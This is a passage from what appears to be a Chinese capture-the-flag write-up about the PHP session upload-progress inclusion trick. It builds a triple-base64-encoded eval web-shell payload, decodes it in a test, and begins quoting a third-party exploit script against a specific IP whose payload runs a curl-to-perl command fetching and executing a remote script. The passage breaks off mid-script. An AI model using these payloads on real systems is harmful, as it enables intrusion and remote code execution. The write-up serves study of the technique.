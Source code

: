 所以我们的 payload 是下面这段代码的输出结果

```
&lt;?php

echo "upload_progress_ZZ".base64_encode(base64_encode(base64_encode('@&lt;?php eval($_GET[1]);')));
```

也就是

```
upload_progress_ZZVVVSM0wyTkhhSGRKUjFZeVdWZDNiMHBHT1VoU1ZsSmlUVll3Y0U5M1BUMD0=
```

我们亲自将去解码三次进行测试

测试代码：

```
&lt;?php

$data = 'upload_progress_ZZVVVSM0wyTkhhSGRKUjFZeVdWZDNiMHBHT1VoU1ZsSmlUVll3Y0U5M1BUMD0=';

for($i=0;$i&lt;3;$i++)`{`

    $new_data = base64_decode($data)."&lt;br/&gt;";
    echo $new_data;

    $data = $new_data;
`}`
```

输出结果：

[![](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E4%B8%89%E6%AC%A1%E8%A7%A3%E7%A0%81%E7%BB%93%E6%9E%9C1.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E4%B8%89%E6%AC%A1%E8%A7%A3%E7%A0%81%E7%BB%93%E6%9E%9C1.png)

有一部分被解析了，我们看一下源码

[![](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E4%B8%89%E6%AC%A1%E8%A7%A3%E7%A0%81%E7%BB%93%E6%9E%9C2.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E4%B8%89%E6%AC%A1%E8%A7%A3%E7%A0%81%E7%BB%93%E6%9E%9C2.png)

可以看到我们成功恢复了我们的payload (&lt;br&gt;前面是上一次循环的，第三次循环只剩下了题目要求的字符)

下面给上 Orange 的 exp

```
import sys
import string
import requests
from base64 import b64encode
from random import sample, randint
from multiprocessing.dummy import Pool as ThreadPool



HOST = 'http://54.250.246.238/'
sess_name = 'iamorange'

headers = `{`
    'Connection': 'close', 
    'Cookie': 'PHPSESSID=' + sess_name
`}`

payload = '@&lt;?php `curl orange.tw/w/bc.pl|perl -`;?&gt;'


while 1:
    junk = ''.join(sample(string.ascii_letters, randint(8, 16)))
```